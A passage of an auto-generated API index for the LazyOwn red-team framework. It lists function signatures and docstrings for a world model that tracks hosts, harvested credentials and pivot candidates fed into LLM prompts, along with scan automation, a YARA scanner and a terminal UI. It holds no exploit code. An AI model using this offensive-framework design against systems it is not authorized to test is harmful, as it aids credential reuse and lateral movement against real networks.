    2. Auto-encrypted ``world_model.json.encrypted`` (decrypted with
       ``LAZYOWN_MASTER_PASSWORD`` and the persisted ``.auto_crypto_salt``).

Returns an empty dict when no readable state exists.

Args:
    path: Path to the plain state file.

Returns:
    The decoded JSON document as a dict.*
- `write_state_dict` (line 118) `def write_state_dict(path, data)` - *Atomically write a world-model state dict as plaintext.

Writing always produces a plain file while the operator is working;
at-rest encryption is applied on application close by
``modules.auto_crypto.AutoCryptoEngine``.

Args:
    path: Destination plain state file path.
    data: State document to serialise.

Returns:
    True when the write succeeded, False otherwise.*
- `get_world_model` (line 1126) `def get_world_model(path)` - *Return (or create) the module-level singleton WorldModel.

``path`` defaults to the module's live :data:`_DEFAULT_PATH` at call
time rather than a captured import-time value, so callers (and tests)
that reassign ``_DEFAULT_PATH`` to redirect state get the redirect.*

**Methods:**
- `rank` (line 160) `def rank(self)`
- `can_advance_to` (line 163) `def can_advance_to(self, next_state)`
- `__init__` (line 267) `def __init__(self)`
- `add_relation` (line 274) `def add_relation(self, relation)` - *Add a directed edge. Duplicate edges accumulate (multi-graph).*
- `neighbors` (line 282) `def neighbors(self, node)` - *Return nodes reachable from *node* in one outbound hop.*
- `in_degree` (line 286) `def in_degree(self, node)` - *Count edges pointing INTO *node*.*
- `out_degree` (line 290) `def out_degree(self, node)` - *Count edges leaving *node*.*
- `degree_centrality` (line 294) `def degree_centrality(self)` - *Return (node, centrality_score) pairs sorted descending by score.
Score is normalized to [0.0, 1.0] over all discovered nodes.*
- `pivot_candidates` (line 309) `def pivot_candidates(self, top_k)` - *Return the *top_k* highest-centrality nodes as pivot candidates.
The returned list is suitable for injection into an LLM prompt as
strategic network context.*
- `to_dict` (line 331) `def to_dict(self)`
- `from_dict` (line 348) `def from_dict(cls, data)`
- `add_service` (line 373) `def add_service(self, svc)`
- `advance` (line 377) `def advance(self, new_state)` - *Advance state only if new_state is the next valid step. Returns True if changed.*
- `to_dict` (line 385) `def to_dict(self)`
- `from_dict` (line 397) `def from_dict(cls, d)`
- `derive` (line 430) `def derive(self, hosts)`
- `__init__` (line 549) `def __init__(self, path)`
- `add_host` (line 565) `def add_host(self, ip)`
- `reset_host` (line 573) `def reset_host(self, ip)` - *Clear a single host's state back to UNSCANNED for a fresh scan. Retains other hosts.

Args:
    ip: Target host IP address.*
- `advance_host` (line 583) `def advance_host(self, ip, new_state)`
- `add_service` (line 592) `def add_service(self, ip, port, name, version, protocol)`
- `add_note` (line 609) `def add_note(self, ip, note)`
- `set_os_hint` (line 616) `def set_os_hint(self, ip, os_hint)` - *Set the operating system hint for a host.

Args:
    ip: Target host IP address.
    os_hint: OS name hint (``"linux"``, ``"windows"``, or ``""``).*
- `get_host` (line 630) `def get_host(self, ip)` - *Return a host entry by IP, or None if not found.

Args:
    ip: Target host IP address.

Returns:
    :class:`HostEntry` if found, otherwise ``None``.*
- `get_hosts_summary` (line 642) `def get_hosts_summary(self)` - *Return a mapping of IP -> state for all tracked hosts.

Returns:
    Dict of ``{ip: state_value}`` for every host in the model.*
- `add_credential` (line 653) `def add_credential(self, value, host, service)`
- `link_credential_to_success` (line 685) `def link_credential_to_success(self, value, host)` - *Mark a credential as working for a specific host in the graph.*
- `link_credential_to_failure` (line 706) `def link_credential_to_failure(self, value, host)` - *Mark a credential as rejected by a specific host in the graph.

Records the negative outcome of an authentication attempt so the
cred-graph view and reuse ranking can skip credentials already
proven not to work against a host.

Args:
    value: The credential value ("user:pass" or hash) that failed.
    host: The host that rejected the credential.

Returns:
    None.*
- `add_vulnerability` (line 736) `def add_vulnerability(self, description, host, cve, severity)`
- `add_email` (line 742) `def add_email(self, address, host, context)`
- `add_domain` (line 748) `def add_domain(self, domain, host, context)`
- `update_from_findings` (line 762) `def update_from_findings(self, findings)` - *Integrate a list of Finding objects (from obs_parser.ObsParser).
Each finding updates the relevant part of the world model.*
- `consume_policy_facts` (line 835) `def consume_policy_facts(self, facts_path)` - *Ingest structured facts from FactStore's ``policy_facts.json``.

Reads hosts, services, credentials, and vulnerabilities discovered by
the FactStore parser and merges them into the world model. Returns the
total number of new facts ingested.

Args:
    facts_path: Path to ``policy_facts.json``. Defaults to
        ``sessions/policy_facts.json``.

Returns:
    Count of newly ingested fact entries.*
- `add_relation` (line 927) `def add_relation(self, source, target, relation, weight)` - *Add an arbitrary directed relationship to the network graph.*
- `pivot_candidates` (line 948) `def pivot_candidates(self, top_k)` - *Return the top_k highest-centrality nodes as pivot candidates.
Uses normalized degree centrality over the full network graph.*
- `graph_snapshot` (line 956) `def graph_snapshot(self)` - *Return the full network graph as a serialisable dict.*
- `get_phase` (line 963) `def get_phase(self)`
- `get_suggested_tools` (line 967) `def get_suggested_tools(self)`
- `to_context_string` (line 970) `def to_context_string(self)` - *Compact, LLM-readable summary of the current engagement state.
Designed to fit in a prompt without consuming excessive tokens.*
- `_save` (line 1029) `def _save(self)` - *Write state to disk. Caller must hold _lock.*
- `_load` (line 1048) `def _load(self)`
- `reload` (line 1078) `def reload(self)` - *Discard in-memory state and re-read from the persisted file.

Safe to call from any thread. Acquires the write lock during the
load to guarantee a consistent snapshot.*
- `reset` (line 1094) `def reset(self)` - *Clear all state and delete the persisted file.*
- `snapshot` (line 1105) `def snapshot(self)` - *Return a plain-dict snapshot (for JSON serialisation).*

#### `yaml_generator.py`
**Path:** `modules/yaml_generator.py`
**File Doc:** *yaml_generator.py*

**Classes:**
- `YAMLPromptGenerator` (line 17) `class YAMLPromptGenerator`

**Functions:**
- `main` (line 141) `def main()`

**Methods:**
- `__init__` (line 18) `def __init__(self, provider, api_key)`
- `load_payload` (line 25) `def load_payload(self)` - *Carga las variables desde payload.json*
- `_load_model` (line 32) `def _load_model(self)` - *Instantiate the LLM backend mapped to ``self.provider``.

When ``self.api_key`` is supplied explicitly it is propagated
into the payload mapping so the factory's Groq builder honours
the caller-provided credential ahead of environment variables.

Returns:
    A configured :class:`AIModel` instance.

Raises:
    LLMBackendNotSupportedError: When ``self.provider`` does not
        map to a known backend.
    LLMBackendUnavailableError: When the resolved backend cannot
        be constructed from the current environment.*
- `generate_prompt` (line 54) `def generate_prompt(self, user_request)` - *Genera el prompt para la IA en inglés*
- `extract_yaml_from_markdown` (line 100) `def extract_yaml_from_markdown(self, text)` - *Extrae el primer bloque YAML entre ```yaml y ```*
- `create_yaml_addon` (line 109) `def create_yaml_addon(self, user_request, output_dir)` - *Genera el YAML y lo guarda en disco*

#### `yara_scanner.py`
**Path:** `modules/yara_scanner.py`
**File Doc:** *YARA integration for malware classification and IOC scanning.  Provides file scanning, process memory scanning, and rule management within the LazyOwn framework.*

**Classes:**
- `YaraScanner` (line 23) `class YaraScanner` - *Scanner that compiles and applies YARA rules against files and directories.

Args:
    rules_dir: Directory containing .yar rule files.
    auto_compile: Automatically compile rules on initialization.*

**Functions:**
- `create_default_rules` (line 371) `def create_default_rules()` - *Create a set of default YARA rules for common threats.

Returns:
    List of created rule file paths.*
- `target` (line 137) `def target()`

**Methods:**
- `__init__` (line 31) `def __init__(self, rules_dir, auto_compile)`
- `ensure_directory` (line 41) `def ensure_directory(self)` - *Create the YARA rules directory if it does not exist.*
- `_load_external_vars` (line 45) `def _load_external_vars(self)` - *Return external variables for YARA rules.*
- `compile_all` (line 54) `def compile_all(self)` - *Compile all .yar files in the rules directory.

Returns:
    bool: True if compilation succeeded, False otherwise.*
- `scan_file` (line 98) `def scan_file(self, filepath, timeout)` - *Scan a single file with all compiled YARA rules.

Args:
    filepath: Path to the file to scan.
    timeout: Maximum scan time in seconds.

Returns:
    List of match dictionaries with rule, namespace, tags, meta, and strings.*
- `_scan_with_timeout` (line 129) `def _scan_with_timeout(self, filepath, externals, timeout)` - *Internal scan with timeout using threading for isolation.*
- `_format_match` (line 162) `def _format_match(self, match)` - *Format a YARA match object into a dictionary.

Args:
    match: YARA match object.

Returns:
    Dict with rule name, namespace, tags, metadata, and matched strings.*
- `scan_directory` (line 187) `def scan_directory(self, directory, recursive, extensions, max_files)` - *Scan all files in a directory recursively.

Args:
    directory: Root directory to scan.
    recursive: Whether to descend into subdirectories.
    extensions: Optional list of file extensions to filter (e.g., ['.exe', '.dll']).
    max_files: Maximum number of files to scan.

Returns:
    List of match dictionaries grouped by file.*
- `_sha256` (line 250) `def _sha256(filepath)` - *Compute SHA256 hash of a file.*
- `add_rule` (line 258) `def add_rule(self, name, content)` - *Add a new YARA rule to the rules directory.

Args:
    name: Rule filename (without extension, will add .yar).
    content: YARA rule source code.

Returns:
    Path to the created rule file.*
- `list_rules` (line 277) `def list_rules(self)` - *List all YARA rules in the rules directory.

Returns:
    List of dicts with name and path keys.*
- `download_community_rules` (line 300) `def download_community_rules(self)` - *Attempt to download community YARA rules from popular repositories.

Returns:
    bool: True if rules were downloaded successfully.*
- `ioc_scan` (line 328) `def ioc_scan(self, target_path, iocs)` - *Scan for IOCs (hashes, strings, registry keys) in a file/directory.

Args:
    target_path: File or directory to scan.
    iocs: List of IOC dicts with type and value keys.

Returns:
    List of matched IOCs.*

#### `__main__.py`
**Path:** `poc_tui/__main__.py`
**File Doc:** *Entry point: python3 -m poc_tui*

*No symbols extracted*

#### `app.py`
**Path:** `poc_tui/app.py`
**File Doc:** *LazyOwn TUI Shell — Proof of Concept.  cmd2 as backend, Textual as frontend. Zero migration needed. All 724+ commands, plugins, aliases, hooks — everything works.  Run from LazyOwn root: python3 poc_tui/app.py*

**Classes:**
- `ShellBackend` (line 44) `class ShellBackend` - *Run the real cmd2 LazyOwnShell in-process, capture all output.*
- `DashboardPanel` (line 137) `class DashboardPanel(Static)` - *Left sidebar: live campaign state from payload.json.*
- `PluginBrowser` (line 195) `class PluginBrowser(Static)` - *Right sidebar: command list from the real cmd2 shell.*
- `OutputPanel` (line 240) `class OutputPanel(VerticalScroll)` - *Center: accumulative scrollable output log.

Command output arrives with raw ANSI escape codes from the real shell.
It is converted via Text.from_ansi (never parsed as Rich markup, which
would break on sequences like '[+]').*
- `LazyOwnTUI` (line 297) `class LazyOwnTUI(App)` - *Textual frontend for the real LazyOwn cmd2 shell.*

**Functions:**
- `main` (line 629) `def main()`
- `_init_backend` (line 429) `def _init_backend()`
- `_work` (line 510) `def _work()`

**Methods:**
- `__init__` (line 47) `def __init__(self, base_dir)`
- `import_shell_class` (line 53) `def import_shell_class(self)` - *Import LazyOwnShell in the main thread (required for signal handlers).*
- `start` (line 71) `def start(self)` - *Instantiate LazyOwnShell (must be called from main thread).*
- `run` (line 83) `def run(self, cmd)` - *Execute a command and return its captured output.*
- `get_commands` (line 106) `def get_commands(self)` - *Return {command_name: help_text} from the live shell.*
- `get_aliases` (line 119) `def get_aliases(self)`
- `stop` (line 124) `def stop(self)`
- `__init__` (line 140) `def __init__(self, base_dir)`
- `compose` (line 144) `def compose(self)`
- `refresh_data` (line 165) `def refresh_data(self, backend, cmd_count)` - *Pull latest state from the LIVE shell params (not stale disk file).*
- `__init__` (line 198) `def __init__(self)`
- `compose` (line 201) `def compose(self)`
- `update_commands` (line 207) `def update_commands(self, commands)`
- `_guess_category` (line 223) `def _guess_category(name, help_text)`
- `__init__` (line 248) `def __init__(self)`
- `compose` (line 252) `def compose(self)`
- `_log` (line 255) `def _log(self)`
- `write_renderable` (line 258) `def write_renderable(self, renderable)` - *Write a Rich renderable (no markup parsing applied).*
- `write_markup` (line 263) `def write_markup(self, text)` - *Write a trusted internal string with Rich markup.*
- `append_command` (line 268) `def append_command(self, cmd)`
- `append_result` (line 273) `def append_result(self, text, success)` - *Write real shell output, converting ANSI — never markup-parsed.*
- `append_error` (line 283) `def append_error(self, text)` - *Write a TUI-side error message (plain, no markup from unsafe text).*
- `append_system` (line 287) `def append_system(self, text)` - *Write a TUI-side status message.*
- `__init__` (line 394) `def __init__(self, base_dir)`
- `compose` (line 405) `def compose(self)`
- `on_mount` (line 418) `def on_mount(self)` - *Start the real cmd2 shell backend.*
- `_on_backend_ready` (line 444) `def _on_backend_ready(self)` - *Called on main thread after backend is initialized.*
- `_auto_refresh_dashboard` (line 464) `def _auto_refresh_dashboard(self)`
- `execute_command` (line 470) `def execute_command(self, cmd_str)` - *Send command to real cmd2 shell, display captured output.

Commands are queued so only one runs at a time. Words that would
exit the inner shell (q/quit/exit ...) close the TUI cleanly instead
of triggering LazyOwn's real do_exit mid-render.*
- `_drain_queue` (line 495) `def _drain_queue(self)` - *Start the next queued command if nothing is running.*
- `_show_result` (line 525) `def _show_result(self, result)` - *Render command output on the main thread, then refocus input.*
- `action_clear_output` (line 539) `def action_clear_output(self)`
- `action_tab_complete` (line 544) `def action_tab_complete(self)`
- `action_toggle_sidebar` (line 549) `def action_toggle_sidebar(self)`
- `action_refresh_dashboard` (line 555) `def action_refresh_dashboard(self)`
- `action_quit` (line 561) `def action_quit(self)` - *Clean shutdown: drop the queue, stop the shell, exit the app.*
- `on_command_submitted` (line 577) `def on_command_submitted(self, event)`
- `on_key` (line 586) `def on_key(self, event)`
- `_tab_complete` (line 605) `def _tab_complete(self, inp)`

#### `config.py`
**Path:** `poc_tui/config.py`
**File Doc:** *Payload.json configuration manager for the TUI shell.*

**Classes:**
- `PayloadConfig` (line 12) `class PayloadConfig` - *Read/write access to payload.json settings.*

**Methods:**
- `__post_init__` (line 18) `def __post_init__(self)`
- `reload` (line 21) `def reload(self)` - *Re-read payload.json from disk.*
- `save` (line 28) `def save(self)` - *Persist current state back to payload.json.*
- `get` (line 35) `def get(self, key, default)`
- `set` (line 38) `def set(self, key, value)`
- `keys` (line 41) `def keys(self)`
- `items` (line 44) `def items(self)`
- `__getitem__` (line 47) `def __getitem__(self, key)`
- `__setitem__` (line 50) `def __setitem__(self, key, value)`
- `__contains__` (line 53) `def __contains__(self, key)`

#### `plugin_loader.py`
**Path:** `poc_tui/plugin_loader.py`
**File Doc:** *Unified plugin loader — YAML addons, Lua plugins, and .tool files.*

**Classes:**
- `PluginSpec` (line 29) `class PluginSpec` - *Metadata for a single registered command.*
- `PluginLoader` (line 84) `class PluginLoader` - *Load and register all plugin types into a command registry.

The registry is a plain dict mapping command names to callables.
This class is framework-agnostic — the Textual app owns the dispatch loop.*
- `_LuaAppProxy` (line 291) `class _LuaAppProxy` - *Minimal proxy exposed to Lua plugins as the global ``app`` object.*

**Functions:**
- `_replace_placeholders` (line 41) `def _replace_placeholders(command, params)` - *Replace {key} tokens with shell-safe values from params.

Every substituted value is wrapped in :func:`shlex.quote` because
the resulting string runs under ``shell=True`` and values arrive
from scan data and operator config. Safe tokens (IPs, hostnames)
pass through unquoted; metacharacters are neutralized inside
single quotes. Multi-word values become one shell word — per-run
flags travel as free args, appended verbatim after the template.*
- `_validate_clone_url` (line 62) `def _validate_clone_url(url)` - *Validate a git clone URL, rejecting shell metacharacters.

Args:
    url: The repository URL to validate.

Returns:
    The validated URL.

Raises:
    ValueError: If the URL contains shell metacharacters or is invalid.*
- `_subst` (line 52) `def _subst(match)`
- `wrapper` (line 117) `def wrapper(arg)`
- `wrapper` (line 172) `def wrapper(arg)`
- `wrapper` (line 269) `def wrapper(arg)`

**Methods:**
- `__init__` (line 91) `def __init__(self, config, base_dir)`
- `_setup_lua` (line 105) `def _setup_lua(self)`
- `_lua_register` (line 114) `def _lua_register(self, name, func)` - *Bridge: Lua calls register_command(name, fn) -> we wrap it.*
- `_list_files` (line 131) `def _list_files(self, directory)`
- `load_all` (line 139) `def load_all(self)` - *Load yaml addons, lua plugins, and .tool files. Return specs.*
- `_load_yaml_addons` (line 148) `def _load_yaml_addons(self)`
- `_register_yaml_addon` (line 161) `def _register_yaml_addon(self, data)`
- `_load_lua_plugins` (line 223) `def _load_lua_plugins(self)`
- `_load_tool_files` (line 248) `def _load_tool_files(self)`
- `_register_tool` (line 261) `def _register_tool(self, data)`
- `__init__` (line 294) `def __init__(self, config)`
- `params` (line 298) `def params(self)`
- `one_cmd` (line 301) `def one_cmd(self, cmd)`

#### `run.py`
**Path:** `poc_tui/run.py`
**File Doc:** *Convenience launcher that symlinks LazyOwn dirs and starts the TUI.*

**Functions:**
- `main` (line 9) `def main()`

#### `test_app.py`
**Path:** `poc_tui/test_app.py`
**File Doc:** *Pytest tests for LazyOwn TUI Shell POC.*

**Classes:**
- `TestShellBackend` (line 32) `class TestShellBackend`
- `TestLazyOwnTUIApp` (line 100) `class TestLazyOwnTUIApp`

**Functions:**
- `_run_async` (line 17) `def _run_async(coro)`
- `_make_backend` (line 26) `def _make_backend()`
- `_t` (line 106) `def _t()`
- `_t` (line 115) `def _t()`
- `_t` (line 126) `def _t()`
- `_t` (line 136) `def _t()`
- `_t` (line 152) `def _t()`
- `_t` (line 165) `def _t()`
- `_t` (line 182) `def _t()`
- `_t` (line 198) `def _t()`
- `_t` (line 210) `def _t()`
- `_t` (line 225) `def _t()`
- `_t` (line 235) `def _t()`
- `_t` (line 248) `def _t()`
- `_t` (line 270) `def _t()`
- `_t` (line 291) `def _t()`
- `_t` (line 307) `def _t()`
- `_t` (line 321) `def _t()`
- `_t` (line 342) `def _t()`
- `_t` (line 361) `def _t()`
- `_t` (line 374) `def _t()`
- `_t` (line 399) `def _t()`
- `_t` (line 414) `def _t()`

**Methods:**
- `test_init_sets_base_dir` (line 33) `def test_init_sets_base_dir(self)`
- `test_run_before_start` (line 37) `def test_run_before_start(self)`
- `test_start_and_stop` (line 42) `def test_start_and_stop(self)`
- `test_run_show` (line 48) `def test_run_show(self)`
- `test_run_help` (line 55) `def test_run_help(self)`
- `test_get_commands` (line 62) `def test_get_commands(self)`
- `test_get_aliases` (line 71) `def test_get_aliases(self)`
- `test_set_and_show` (line 78) `def test_set_and_show(self)`
- `test_buffer_cleared` (line 86) `def test_buffer_cleared(self)`
- `test_app_creates` (line 101) `def test_app_creates(self)`
- `test_app_starts_stops` (line 105) `def test_app_starts_stops(self)`
- `test_panels_visible` (line 114) `def test_panels_visible(self)`
- `test_input_has_focus` (line 125) `def test_input_has_focus(self)`
- `test_execute_help` (line 135) `def test_execute_help(self)`
- `test_input_cleared_after_submit` (line 151) `def test_input_cleared_after_submit(self)`
- `test_history_up` (line 164) `def test_history_up(self)`
- `test_history_down` (line 181) `def test_history_down(self)`
- `test_tab_complete` (line 197) `def test_tab_complete(self)`
- `test_toggle_sidebar` (line 209) `def test_toggle_sidebar(self)`
- `test_quit` (line 224) `def test_quit(self)`
- `test_backend_ready` (line 234) `def test_backend_ready(self)`
- `test_set_updates_dashboard` (line 247) `def test_set_updates_dashboard(self)`
- `test_show_command_output_in_log` (line 269) `def test_show_command_output_in_log(self)`
- `test_q_is_quit_not_shell_alias` (line 288) `def test_q_is_quit_not_shell_alias(self)` - *'q' must quit the TUI — never reach the real shell's exit alias.*
- `test_quit_word_not_sent_to_backend` (line 304) `def test_quit_word_not_sent_to_backend(self)` - *exit/quit/q words must never reach shell.onecmd.*
- `test_commands_queue_serialized` (line 318) `def test_commands_queue_serialized(self)` - *Two fast commands must queue, not race.*
- `test_focus_returns_after_command` (line 341) `def test_focus_returns_after_command(self)`
- `test_output_renders_ansi_codes` (line 358) `def test_output_renders_ansi_codes(self)` - *append_result converts ANSI escapes to styled text, no markup crash.*
- `test_busy_command_shows_running_indicator` (line 373) `def test_busy_command_shows_running_indicator(self)`
- `test_layout_all_panels_render_in_screenshot` (line 392) `def test_layout_all_panels_render_in_screenshot(self)` - *All three layout panels must be visible in the exported screen.

Regression: the previous CSS grid collapsed the center output
panel to zero width — commands executed but nothing was visible.*
- `test_command_output_visible_in_screenshot` (line 411) `def test_command_output_visible_in_screenshot(self)` - *Run a real command and verify its output text is VISIBLE on screen.*

#### `pwntomate.py`
**Path:** `pwntomate.py`
**File Doc:** *This software must not be used by military or secret service organisations. License: GPL-3.0-only*

**Functions:**
- `_build_substitutions` (line 113) `def _build_substitutions(host_addr, port, toolname_value, basedir_value, tunnel)` - *Return the non-credential substitution map for a tool template.

Credentials are deliberately excluded so they only enter the
command string through :class:`CommandRedactor.render`, which
guarantees the display copy never contains a real credential
byte-for-byte.*
- `_fix_sessions_owner` (line 143) `def _fix_sessions_owner()` - *Best-effort ownership fixup, silent when not permitted.

Scans run under sudo leave root-owned files behind. Fixed argv only
(no shell, no user input); ``sudo -n`` never prompts, plain call
covers operator-owned trees, failure is non-fatal either way.*
- `_run_tool` (line 203) `def _run_tool(cmd)` - *Run one auto-job command without shell interpretation.

Splits the generated ``mkdir -p ... && <tool>`` chain into a
directory-creation step plus a tool step. The tool step uses
shlex.split with shell False so scan-derived host data cannot
inject shell operators. Falls back to shell only for templates
that contain additional chaining beyond the single mkdir prefix.*

#### `readmeneitor.py`
**Path:** `readmeneitor.py`
**File Doc:** *readmeneitor.py — Automated documentation generator for LazyOwn RedTeam Framework.  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Creation date: 09/06/2024 License: GPL v3  Description: Scans all do_* methods across cli/commands/ and lazyown.py via AST, augments metadata from cli/command_index.json, and generates a categorized COMMANDS.md reference organized by kill-chain phase.  █████╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██╔══██╗   ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ███████║   ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██╔══██║   ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ██║  ██║   ██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚═╝  ╚═╝   ╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `normalize_trailing_newline` (line 74) `def normalize_trailing_newline(output_path)` - *Collapse a generated file tail to exactly one newline.

Keeps ``end-of-file-fixer`` green on every regeneration.*
- `load_command_index` (line 83) `def load_command_index(index_path)` - *Load and parse the command index JSON file.

Args:
    index_path: Path to cli/command_index.json.

Returns:
    Parsed JSON dictionary. Returns an empty dict if the file is missing
    or contains invalid JSON.*
- `build_command_map` (line 104) `def build_command_map(index_data)` - *Build a lookup dict from command name to its metadata.

Combines the ``commands`` list with ``phase_to_commands`` to assign
every command a phase, category, and summary.

Args:
    index_data: The parsed command_index.json content.

Returns:
    Dict mapping ``do_<name>`` to a metadata dict with keys:
    ``phase``, ``summary``, ``source_file``.*
- `extract_docstrings_from_file` (line 132) `def extract_docstrings_from_file(filepath)` - *Parse a single Python file with AST and extract docstrings of ``do_*`` methods.

Args:
    filepath: Path to a ``.py`` source file.

Returns:
    Dict mapping function name (e.g. ``do_ask``) to its docstring.
    Returns an empty dict if the file cannot be parsed.*
- `extract_docstrings_from_dir` (line 161) `def extract_docstrings_from_dir(dirpath)` - *Recursively scan a directory for Python files and extract all ``do_*`` docstrings.

Skips files whose name begins with an underscore and
``__pycache__`` directories.

Args:
    dirpath: Root directory to scan.

Returns:
    Dict mapping function name to its full docstring.*
- `group_commands_by_phase` (line 187) `def group_commands_by_phase(cmd_map)` - *Group command names by their kill-chain phase.

Args:
    cmd_map: Command metadata dict from :func:`build_command_map`.

Returns:
    Dict mapping phase key to a sorted list of command names (``do_*``).*
- `extract_functions_from_file` (line 209) `def extract_functions_from_file(filepath)` - *Parse a Python file with AST and extract docstrings of public functions.

Args:
    filepath: Path to a ``.py`` source file.

Returns:
    Dict mapping function name to its docstring. Private names
    (leading underscore) are skipped. Returns an empty dict if the
    file cannot be parsed.*
- `write_utils_md` (line 241) `def write_utils_md(functions, output_path)` - *Generate UTILS.md with a helper-function reference for ``utils.py``.

Args:
    functions: Mapping of function name to its full docstring.
    output_path: Destination file path for UTILS.md.

Returns:
    Total number of functions written to the file.*
- `write_commands_md` (line 276) `def write_commands_md(cmd_map, docstrings, groups, output_path)` - *Generate COMMANDS.md with a table of contents and per-phase command reference.

Args:
    cmd_map: Command metadata from command_index.json.
    docstrings: Full docstrings extracted via AST.
    groups: Commands grouped by phase key.
    output_path: Destination file path for COMMANDS.md.

Returns:
    Total number of unique commands written to the file.*
- `convert_to_html` (line 343) `def convert_to_html(md_path, html_path)` - *Convert the generated Markdown file to HTML using pandoc.

Args:
    md_path: Path to the source Markdown file.
    html_path: Destination path for the HTML output.*
- `main` (line 379) `def main()` - *Entry point: scan sources, load metadata, and generate reference docs.*

#### `__init__.py`
**Path:** `scripts/__init__.py`
**File Doc:** *Repository-side maintenance scripts.  Modules in this package are entry points for the developer workflow (index generation, lint helpers, release prep). They are not imported by the runtime: ``lazyown.py`` and ``lazyc2.py`` never depend on anything here.*

*No symbols extracted*

#### `activate_migrations.py`
**Path:** `scripts/activate_migrations.py`
**File Doc:** *Activate dormant CommandSet migrations.  Usage: python3 scripts/activate_migrations.py [--dry-run] [--phase <name>]  Scans cli/commands/*_migrated.py files that use PendingCommandSet, finds the corresponding do_* methods in lazyown.py, removes them, and changes the base class to LazyOwnCommandSet.  When the originals are deleted from lazyown.py, the migrated CommandSets activate automatically on next shell start via cli.registry.*

**Classes:**
- `MigrationError` (line 28) `class MigrationError(Exception)`

**Functions:**
- `find_migrated_sets` (line 32) `def find_migrated_sets()` - *Return paths to all *_migrated.py files using PendingCommandSet.*
- `extract_command_names` (line 42) `def extract_command_names(migrated_path)` - *Extract do_* method names from a migrated CommandSet file.*
- `find_in_lazyown` (line 52) `def find_in_lazyown(command_names)` - *Return {name: (start_line, end_line)} for commands in lazyown.py.*
- `remove_from_lazyown` (line 62) `def remove_from_lazyown(locations, dry_run)` - *Remove the specified do_* methods from lazyown.py. Returns count removed.*
- `activate_migrated_file` (line 75) `def activate_migrated_file(migrated_path, dry_run)` - *Change PendingCommandSet to LazyOwnCommandSet in the migrated file.*
- `main` (line 88) `def main()`

#### `backfill_addon_os_trigger.py`
**Path:** `scripts/backfill_addon_os_trigger.py`
**File Doc:** *One-shot backfill: add ``os`` and ``trigger`` keys to every lazyaddon.  This script is idempotent. It scans ``lazyaddons/*.yaml``, classifies each file via a small heuristic table (filename + repo URL + category), then inserts ``os`` and ``trigger`` immediately before the ``tool:`` block, preserving the rest of the YAML formatting verbatim. Files that already declare both keys are skipped.  Run via ``python3 scripts/backfill_addon_os_trigger.py``. The classifier errs on the conservative side: when uncertain the file is left with the safe defaults ``os: any`` and ``trigger: []`` so the addon keeps loading.*

**Functions:**
- `classify_os` (line 104) `def classify_os(filename)` - *Return a MITRE-platform string for the addon based on filename.*
- `known_trigger` (line 121) `def known_trigger(name)` - *Return the curated trigger tuple for an addon, or ``()``.*
- `render_trigger` (line 127) `def render_trigger(trigger)` - *Render the trigger field as inline YAML matching the project style.*
- `patch` (line 141) `def patch(path)` - *Return the new file content with ``os`` and ``trigger`` inserted.

Idempotent: when both keys already exist the original text is
returned unchanged.*
- `main` (line 175) `def main()` - *Walk every addon and rewrite files that need backfilling.*

#### `check_contract_manifest.py`
**Path:** `scripts/check_contract_manifest.py`
**File Doc:** *Verify that documented contracts still exist on disk.  The repository publishes contract tables and public import examples in its markdown. Markdown drifts silently when a module is renamed or a test file is deleted. This script reads the contract tables and the public import examples and fails when a documented module, test, or public symbol is missing.  The check is intentionally conservative. It ignores globs, brace expansions, placeholders, URLs, and session artefacts, because those are patterns rather than concrete paths.  Usage: python3 scripts/check_contract_manifest.py python3 scripts/check_contract_manifest.py --verbose*

**Classes:**
- `ManifestConfig` (line 34) `class ManifestConfig` - *Configuration for the contract manifest check.

Attributes:
    repo_root: Root of the checkout.
    docs_with_tables: Markdown files whose tables cite modules and tests.
    core_md: Consumer document whose import examples are the public API.
    path_extensions: File suffixes treated as concrete path references.
    skip_substrings: Fragments that mark a token as a pattern, not a path.
    skip_prefixes: Repo-relative prefixes that are runtime state.*

**Functions:**
- `_top_level_names` (line 72) `def _top_level_names(path)` - *Return the top-level names defined or imported by a Python file.

Args:
    path: Path of the Python file to parse.
Returns:
    The set of class, function, assignment, and import names declared at
    module level. An unparseable file yields an empty set.*
- `_module_path` (line 100) `def _module_path(module, config)` - *Map a dotted module name to an existing file, if one exists.*
- `_dotted_symbol_exists` (line 112) `def _dotted_symbol_exists(token, config)` - *Return True when the dotted token resolves to a module or member.*
- `_iter_table_cells` (line 127) `def _iter_table_cells(text)` - *Return every cell of every markdown table row in ``text``.*
- `_extract_path_tokens` (line 138) `def _extract_path_tokens(text, config)` - *Return concrete repo-relative path tokens cited by markdown tables.*
- `_resolve_reference` (line 154) `def _resolve_reference(token, config)` - *Resolve a cited path or test name to a file, if it exists.*
- `_collect_doc_imports` (line 163) `def _collect_doc_imports(text)` - *Return ``(module, name)`` pairs from every import example in a doc.*
- `check_manifest` (line 176) `def check_manifest(config)` - *Return the list of documented contracts that are missing on disk.

Args:
    config: Active check configuration.
Returns:
    Human readable drift messages. An empty list means the manifest is
    consistent with the source.*
- `_extract_dotted_tokens` (line 209) `def _extract_dotted_tokens(text, config)` - *Return dotted identifier tokens from the public surface table.

File-like tokens such as ``payload.json`` are skipped because they cite
an artefact, not an importable module.*
- `main` (line 229) `def main(argv)` - *Run the manifest check and return the process exit code.

Args:
    argv: Optional argument vector. Defaults to ``sys.argv``.
Returns:
    0 when the manifest is consistent, 1 when drift is detected.*

**Methods:**
- `__post_init__` (line 53) `def __post_init__(self)` - *Resolve relative paths against the repository root.*
- `_resolve` (line 58) `def _resolve(self, path)` - *Return ``path`` anchored at the repository root when relative.*

#### `command_audit.py`
**Path:** `scripts/devtools/command_audit.py`
**File Doc:** *Audit every registered shell command for dispatch and parser errors.  The audit boots the cmd2 shell once, runs ``help`` for every registered command, and probes every ``@with_argparser`` command with an invalid flag so cmd2 exercises the parser without running the command body. It reports any command whose parser or dispatch raises. It is read-only: the probe flag is rejected before the command body executes.*

**Classes:**
- `AuditConfig` (line 25) `class AuditConfig` - *Configuration for the command audit.

Attributes:
